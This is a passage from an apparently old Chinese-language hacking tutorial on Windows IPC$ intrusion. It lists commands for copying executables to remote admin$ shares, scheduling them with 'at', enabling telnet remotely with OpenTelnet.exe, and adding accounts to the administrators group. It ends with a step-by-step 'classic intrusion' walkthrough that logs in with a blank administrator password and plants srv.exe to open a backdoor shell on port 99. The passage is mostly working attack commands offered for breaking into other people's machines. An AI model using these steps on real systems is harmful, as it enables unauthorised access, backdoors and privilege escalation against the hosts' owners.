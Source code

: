 11 删除共享映射 
net use c: /del 删除映射的c盘，其他盘类推 
net use * /del /y删除全部 

12 向远程主机复制文件 
copy \路径\srv.exe \\IP\共享目录名，如： 
copy ccbirds.exe \\*.*.*.*\c 即将当前目录下的文件复制到对方c盘内 

13 远程添加计划任务 
at \\ip 时间 程序名，如： 
at \\127.0.0.0 11:00 love.exe 
注意：时间尽量使用24小时制；在系统默认搜索路径（比如system32/）下不用加路径，否则必须加全路径 
14 开启远程主机的telnet 
这里要用到一个小程序：opentelnet.exe，各大下载站点都有，而且还需要满足四个要求： 

1）目标开启了ipc$共享 
2）你要拥有管理员密码和帐号 
3）目标开启RemoteRegistry服务，用户就该ntlm认证 
4）对WIN2K/XP有效，NT未经测试 
命令格式：OpenTelnet.exe \\server account psw NTLM认证方式 port 
试例如下：c:\>OpenTelnet.exe \\*.*.*.* administrator "" 1 90 

15 激活用户/加入管理员组 
1 net uesr account /active:yes 
2 net localgroup administrators account /add 

16 关闭远程主机的telnet 
同样需要一个小程序：ResumeTelnet.exe 
命令格式：ResumeTelnet.exe \\server account psw 
试例如下：c:\>ResumeTelnet.exe \\*.*.*.* administrator "" 

17 删除一个已建立的ipc$连接 
net use \\IP\ipc$ /del 

九 经典入侵模式 
这个入侵模式太经典了,大部分ipc教程都有介绍,我也就拿过来引用了,在此感谢原创作者!(不知道是哪位前辈) 

1. C:\>net use \\127.0.0.1\IPC$ "" /user:"admintitrators" 
这是用《流光》扫到的用户名是administrators，密码为"空"的IP地址(空口令?哇,运气好到家了)，如果是打算攻击的话，就可以用这样的命令来与127.0.0.1建立一个连接，因为密码为"空"，所以第一个引号处就不用输入，后面一个双引号里的是用户名，输入administrators，命令即可成功完成。

复制之前务必用net view \\IP这个命令看一下对方的共享情况 
2. C:\>copy srv.exe \\127.0.0.1\admin$ 
先复制srv.exe上去，在流光的Tools目录下就有（这里的$是指admin用户的c:\winnt\system32\，大家还可以使用c$、d$，意思是C盘与D盘，这看你要复制到什么地方去了）。 

3. C:\>net time \\127.0.0.1 
查查时间，发现127.0.0.1 的当前时间是 2002/3/19 上午 11:00，命令成功完成。 

4. C:\>at \\127.0.0.1 11:05 srv.exe 
用at命令启动srv.exe吧（这里设置的时间要比主机时间快，不然你怎么启动啊，呵呵！） 

5. C:\>net time \\127.0.0.1 
再查查到时间没有？如果127.0.0.1 的当前时间是 2002/3/19 上午 11:05，那就准备开始下面的命令。 

6. C:\>telnet 127.0.0.1 99 
这里会用到Telnet命令吧，注意端口是99。Telnet默认的是23端口，但是我们使用的是SRV在对方计算机中为我们建立一个99端口的Shell。 
虽然我们可以Telnet上去了，但是SRV是一次性的，下次登录还要再激活！所以我们打算建立一个Telnet服务！这就要用到ntlm了 
